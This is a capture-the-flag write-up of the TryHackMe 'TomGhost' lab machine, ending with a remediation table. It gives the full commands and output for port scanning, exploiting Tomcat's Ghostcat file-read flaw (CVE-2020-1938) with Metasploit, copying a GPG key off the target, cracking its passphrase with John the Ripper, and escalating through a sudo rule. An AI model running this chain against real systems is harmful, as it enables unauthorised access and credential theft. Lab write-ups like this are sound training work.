






# TomGhost — TryHackMe Writeup

**Platform:** TryHackMe | **Difficulty:** Easy | **Target IP:** 10.64.158.201 | **Attacker IP:** 192.168.146.25

## Machine info



## Summary

**TomGhost** is a TryHackMe room built around CVE-2020-1938 (Ghostcat), a file-read vulnerability in Apache Tomcat's AJP connector. Abusing it discloses a web.xml comment containing SSH credentials for a low-privilege user. From there, a GPG-encrypted credential file is cracked and decrypted to recover a second user's password, whose passwordless `sudo` rule on `zip` leads directly to root via a known GTFOBins technique.

**Attack chain:** AJP Port Enumeration → Ghostcat (CVE-2020-1938) File Read → Leaked SSH Credentials → Initial Access → GPG Passphrase Cracking → Credential Decryption → Pivot to merlin → sudo zip (GTFOBins) → Root

## 1. Reconnaissance

A full TCP port scan found four open ports: SSH, an unidentified service on 53, the AJP connector on 8009, and Apache Tomcat 9.0.30 on 8080:

```
nmap -p- -sS -sV -sC -vvv -oN scan.txt 10.64.158.201

PORT     STATE SERVICE    REASON         VERSION
22/tcp   open  ssh        syn-ack ttl 62 OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
53/tcp   open  tcpwrapped syn-ack ttl 62
8009/tcp open  ajp13      syn-ack ttl 62 Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack ttl 62 Apache Tomcat 9.0.30
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Web Enumeration

Directory brute-forcing on port 8080 surfaced the default Tomcat paths plus the Manager app:

```
gobuster dir -u http://10.64.158.201:8080/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html

docs                 (Status: 302) [Size: 0] [--> /docs/]
examples             (Status: 302) [Size: 0] [--> /examples/]
manager              (Status: 302) [Size: 0] [--> /manager/]
```

`/manager/html` returned a 403 — by default the Manager GUI only accepts connections from localhost, closing off that path.

## 3. Exploitation — AJP File Read (CVE-2020-1938 / Ghostcat)

Tomcat 9.0.30 with its AJP connector exposed is vulnerable to Ghostcat, an unauthenticated file-read/inclusion flaw:

```
searchsploit Apache Tomcat - AJP 'Ghostcat File Read/Inclusion'
Apache Tomcat - AJP 'Ghostcat File Read/Inclusion                                 | multiple/webapps/48143.py
Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit)                   | multiple/webapps/49039.rb
```

The Metasploit module was used instead, targeting its default file (`/WEB-INF/web.xml`):

```
msf > use auxiliary/admin/http/tomcat_ghostcat
msf auxiliary(admin/http/tomcat_ghostcat) > set rhosts 10.64.158.201
msf auxiliary(admin/http/tomcat_ghostcat) > exploit

  <description>
     Welcome to GhostCat
        skyfuck:8730281lkjlkjdqlksalks
  </description>
```

The leaked `web.xml` comment contains valid credentials: `skyfuck:8730281lkjlkjdqlksalks`.

## 4. Initial Access

Those credentials logged in directly over SSH:



The user flag sat readable in `/home/merlin`:



## 5. Privilege Escalation to merlin

`sudo -l` denied `skyfuck` any sudo rights, and `find / -perm -4000` turned up only standard Ubuntu SUID binaries. `/opt` held a `zimbra` directory (root-only `.saveconfig`) and a standard Tomcat install (`conf/` permission denied) — both dead ends. `merlin`'s home had nothing beyond the user flag, but `skyfuck`'s own home contained two files:

```
skyfuck@ubuntu:~$ ls -la
credential.pgp
tryhackme.asc
```

Both were pulled to the attacking machine:

```
scp skyfuck@10.64.158.201:tryhackme.asc .
scp skyfuck@10.64.158.201:credential.pgp .
```

`tryhackme.asc` is a GPG private key protected by a passphrase, cracked with `gpg2john` and John the Ripper:

```
gpg2john tryhackme.asc > tryhackme_hash
john --wordlist=/usr/share/wordlists/rockyou.txt tryhackme_hash
alexandru        (tryhackme)
```

The key was imported and used to decrypt `credential.pgp`:

```
gpg --import tryhackme.asc
gpg: key 8F3DA3DEC6707170: secret key imported

gpg --pinentry-mode loopback --passphrase alexandru --decrypt credential.pgp
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

That password switched the session to `merlin`:

```
su merlin
merlin@ubuntu:/home/skyfuck$
```

## 6. Privilege Escalation to Root

`sudo -l` as `merlin` showed a passwordless rule on `zip`, a GTFOBins-listed binary:

```
sudo -l
User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```

Its test-archive flag (`-T`) can run an arbitrary command as root through `-TT`:







## Root Cause & Remediation

| Issue | Fix |
|---|---|
| Apache Tomcat 9.0.30 vulnerable to Ghostcat (CVE-2020-1938), allowing unauthenticated file read via the AJP connector | Upgrade Tomcat past 9.0.31/8.5.51/7.0.100; disable or firewall the AJP connector if unused, and set `requiredSecret` if it must stay exposed |
| SSH credentials embedded in a web application descriptor (`web.xml`), readable through the AJP file-read flaw | Never store credentials in application descriptors; keep secrets out of files served or parsed by the web server |
| A GPG private key protected by a weak, dictionary-crackable passphrase | Enforce strong, high-entropy passphrases for private keys used to protect credentials |
| `merlin` granted passwordless `sudo` on `/usr/bin/zip`, a GTFOBins-listed binary | Remove unnecessary `sudo` grants on archive utilities; restrict `sudo` to the minimum commands required |
